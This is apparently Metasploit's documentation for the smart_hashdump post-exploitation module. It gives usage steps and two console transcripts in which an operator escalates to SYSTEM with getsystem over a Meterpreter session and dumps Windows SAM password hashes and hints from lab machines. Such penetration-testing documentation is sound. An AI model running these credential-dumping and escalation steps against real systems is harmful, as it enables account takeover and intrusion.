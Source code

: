 ## Vulnerable Application
The post/windows/gather/smart_hashdump module dumps local accounts from the SAM database. If the target host
is a Domain Controller, it will dump the Domain Account Database using the proper technique depending
on privilege level, OS and role of the host.

Hashes will be saved to the Metasploit database in John the Ripper format for later use.

To be able to use post/windows/gather/smart_hashdump, you must meet these requirements:

* You are on a Meterpreter type session.
* The target is a Windows platform.
* It must be executed under the context of a high privilege account, such as SYSTEM.

## Verification Steps

1. Obtain a meterpreter shell on a Windows system, and ensure that you have SYSTEM privileges
   or are running as a highly privileged user.
1. `use post/windows/gather/smart_hashdump`
1. Specify the session, eg: `set SESSION 1`
1. If necessary, tell the module to attempt to elevate to SYSTEM before
   attempting to dump the credentials with the command: `set GETSYSTEM true`.
1. Run the module.

## Options

### GETSYSTEM
Attempt to run the `getsystem` module on the target host to get `NT AUTHORITY\SYSTEM` privileges prior to dumping the hashes.

## Scenarios

**High Privilege Account on Windows 10 x64 v2004**

Before using post/windows/gather/smart_hashdump, there is a possibility you need to escalate your privileges.
This module features a `GETSYSTEM` option, which will attempt to elevate from a high privileged account to `NT AUTHORITY\SYSTEM`.
This can be seen in the following example which is running as a high privileged user in which the module
fails to run successfully as the current user is not `NT AUTHORITY\SYSTEM`. By using the `GETSYSTEM` option, the user is able
to elevate themselves to `NT AUTHORITY\SYSTEM` using Metasploit's `getsystem` module, after which they are then able
to dump the password hashes.

```
msf6 exploit(multi/handler) > use post/windows/gather/smart_hashdump
msf6 post(windows/gather/smart_hashdump) > show options

Module options (post/windows/gather/smart_hashdump):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   GETSYSTEM  false            no        Attempt to get SYSTEM privilege on the target host.
   SESSION                     yes       The session to run this module on.

msf6 post(windows/gather/smart_hashdump) > set SESSION 1
SESSION => 1
msf6 post(windows/gather/smart_hashdump) > run

[*] Running module against DESKTOP-G7A2R2R
[*] Hashes will be saved to the database if one is connected.
[+] Hashes will be saved in loot in JtR password file format to:
[*] /home/kali/.msf4/loot/20201008121933_default_192.168.56.117_windows.hashes_338495.txt
[-] Insufficient privileges to dump hashes!
[*] Post module execution completed
msf6 post(windows/gather/smart_hashdump) > set GETSYSTEM true
GETSYSTEM => true
msf6 post(windows/gather/smart_hashdump) > run

[*] Running module against DESKTOP-G7A2R2R
[*] Hashes will be saved to the database if one is connected.
[+] Hashes will be saved in loot in JtR password file format to:
[*] /home/kali/.msf4/loot/20201008122008_default_192.168.56.117_windows.hashes_353942.txt
[*] Dumping password hashes...
[*] Trying to get SYSTEM privilege
[+] Got SYSTEM privilege
[*]     Obtaining the boot key...
[*]     Calculating the hboot key using SYSKEY 4934844cf0365459683ed18d9ebcb903...
[*]     Obtaining the user list and keys...
[*]     Decrypting user keys...
[*]     Dumping password hints...
[*]     No users with password hints on this system
[*]     Dumping password hashes...
[+]     Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[+]     DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[+]     WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[+]     user:1001:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Post module execution completed
```

**Running as the SYSTEM user on Windows 7 x64 SP1**
```
msf6 exploit(multi/handler) > exploit

[*] Started bind TCP handler against 172.24.15.185:4444
[*] Sending stage (200262 bytes) to 172.24.15.185
[*] Meterpreter session 1 opened (0.0.0.0:0 -> 172.24.15.185:4444) at 2020-10-08 12:46:47 -0500

meterpreter > getuid
Server username: test-PC\test
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use post/windows/gather/smart_hashdump
msf6 post(windows/gather/smart_hashdump) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : TEST-PC
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > background
[*] Backgrounding session 1...
msf6 post(windows/gather/smart_hashdump) > set SESSION 1
SESSION => 1
msf6 post(windows/gather/smart_hashdump) > run

[*] Running module against TEST-PC
[*] Hashes will be saved to the database if one is connected.
[+] Hashes will be saved in loot in JtR password file format to:
[*] /home/gwillcox/.msf4/loot/20201008124735_default_172.24.15.185_windows.hashes_456389.txt
[*] Dumping password hashes...
[*] Running as SYSTEM extracting hashes from registry
[*] 	Obtaining the boot key...
[*] 	Calculating the hboot key using SYSKEY 8e9f8fa11359f037112782911694d611...
[*] 	Obtaining the user list and keys...
[*] 	Decrypting user keys...
[*] 	Dumping password hints...
[+] 	test:"a"
[+] 	test2:"asdf"
[*] 	Dumping password hashes...
[+] 	Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[+] 	test:1000:aad3b435b51404eeaad3b435b51404ee:0cb6948805f797bf2a82807973b89537:::
[+] 	test2:1001:aad3b435b51404eeaad3b435b51404ee:0e8231621f574d3636255ff36dd86c9c:::
[*] Post module execution completed
msf6 post(windows/gather/smart_hashdump) >
```
